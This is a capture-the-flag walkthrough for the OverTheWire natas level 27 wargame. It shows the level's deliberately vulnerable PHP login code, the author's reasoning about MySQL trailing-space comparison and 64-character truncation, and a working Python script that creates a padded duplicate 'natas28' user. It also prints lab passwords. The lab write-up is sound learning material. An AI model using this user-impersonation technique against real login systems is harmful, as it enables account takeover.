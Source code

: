 ```yaml
---
title: natas 27 walkthrough
description: over the wire natas 27
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-27 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 27 walkthrough
    order: 30
---
```

# Description
> Username: natas27
> 
> URL:      http://natas27.natas.labs.overthewire.org

## Source Code
```php
<?php

// morla / 10111
// database gets cleared every 5 min


/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/


function checkCredentials($link, $usr, $pass)
{

    $user = mysqli_real_escape_string($link, $usr);
    $password = mysqli_real_escape_string($link, $pass);

    $query = "SELECT username from users where username='$user' and password='$password' ";
    $res = mysqli_query($link, $query);
    if (mysqli_num_rows($res) > 0) {
        return True;
    }
    return False;
}


function validUser($link, $usr)
{

    $user = mysqli_real_escape_string($link, $usr);

    $query = "SELECT * from users where username='$user'";
    $res = mysqli_query($link, $query);
    if ($res) {
        if (mysqli_num_rows($res) > 0) {
            return True;
        }
    }
    return False;
}


function dumpData($link, $usr)
{

    $user = mysqli_real_escape_string($link, trim($usr));

    $query = "SELECT * from users where username='$user'";
    $res = mysqli_query($link, $query);
    if ($res) {
        if (mysqli_num_rows($res) > 0) {
            while ($row = mysqli_fetch_assoc($res)) {
                // thanks to Gobo for reporting this bug!
                //return print_r($row);
                return print_r($row, true);
            }
        }
    }
    return False;
}


function createUser($link, $usr, $pass)
{

    if ($usr != trim($usr)) {
        echo "Go away hacker";
        return False;
    }
    $user = mysqli_real_escape_string($link, substr($usr, 0, 64));
    $password = mysqli_real_escape_string($link, substr($pass, 0, 64));

    $query = "INSERT INTO users (username,password) values ('$user','$password')";
    $res = mysqli_query($link, $query);
    if (mysqli_affected_rows($link) > 0) {
        return True;
    }
    return False;
}


if (array_key_exists("username", $_REQUEST) and array_key_exists("password", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas27', '<censored>');
    mysqli_select_db($link, 'natas27');


    if (validUser($link, $_REQUEST["username"])) {
        //user exists, check creds
        if (checkCredentials($link, $_REQUEST["username"], $_REQUEST["password"])) {
            echo "Welcome " . htmlentities($_REQUEST["username"]) . "!<br>";
            echo "Here is your data:<br>";
            $data = dumpData($link, $_REQUEST["username"]);
            print htmlentities($data);
        } else {
            echo "Wrong password for user: " . htmlentities($_REQUEST["username"]) . "<br>";
        }
    } else {
        //user doesn't exist
        if (createUser($link, $_REQUEST["username"], $_REQUEST["password"])) {
            echo "User " . htmlentities($_REQUEST["username"]) . " was created!";
        }
    }

    mysqli_close($link);
} else {
}
```

---
# Progress
## Observation
First, I noticed that sql injection might be prevented by `mysqli_real_escape_string`. While digging information, I found a [stackoverflow discussion](https://stackoverflow.com/questions/5741187/sql-injection-that-gets-around-mysql-real-escape-string) which is marvelous. It shows the original answer and why the payload was constructed. Back to the topic, refer to that discussion, it seems to be impossible to bypass `mysqli_real_escape_string`.

The last hope would be `htmlentities`. It seems that it can do nothing.
## Get a Hint
From this [natas hint site](https://onestepcode.com/no-solution-natas-guide-overthewire/). It says 
> The username column is not defined as unique

## Plan
All we need to do is construct a username that would be `natas28` when it's store into the database. In other words, we need to meet a few conditions
1. `$usr != trim($usr)`
2. `mysqli_real_escape_string($link, substr($usr, 0, 64)) == 'natas28'`
All the special characters we need can be found at [php manual](https://www.php.net/manual/en/mysqli.real-escape-string.php).
## Pwn
```python
import requests
from bs4 import BeautifulSoup
from requests.auth import HTTPBasicAuth

username = "natas27"
password = "PSO8xysPi00WKIiZZ6s6PtRmFy9cbxj3"
authentication = HTTPBasicAuth(username, password)

def get_content(response):
    soup = BeautifulSoup(response.text, 'html.parser')
    content = soup.select('#content')
    return content.__str__()

def main():
    main_url = "http://natas27.natas.labs.overthewire.org/"
    payload = {
        "username" : "natas28" + "\0"*63 + "3",
        "password" : "123"
    }
    _ = requests.post(main_url, payload, auth=authentication)
    payload = {
        "username" : "natas28",
        "password" : "123"
    }
    response = requests.post(main_url, payload, auth=authentication)
    print(get_content(response))

main()
```
skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4

## SQL Trailing Spaces
Although I got the password, that was achieved by chance, not a good plan nor clear understanding.

How mySQL treats trailing spaces plays a significant role in this problem. By [the document](https://dev.mysql.com/doc/refman/8.4/en/charset-binary-collations.html#charset-binary-collations-trailing-space-comparisons) and my search,
![[mysql_ascii.png]]
we know
1. For `PAD SPACE` collations, trailing spaces are insignificant in comparisons; strings are compared without regard to trailing spaces.
2. ascii is `PAD SPACE` collations in mysql
Therefore, trailing spaces would be ignored.
![[mysql_trailing_spaces_comparison.png]]

---
# Hint

---
# Solving
## Category
- 
## Techniques
- 

## Tools
- 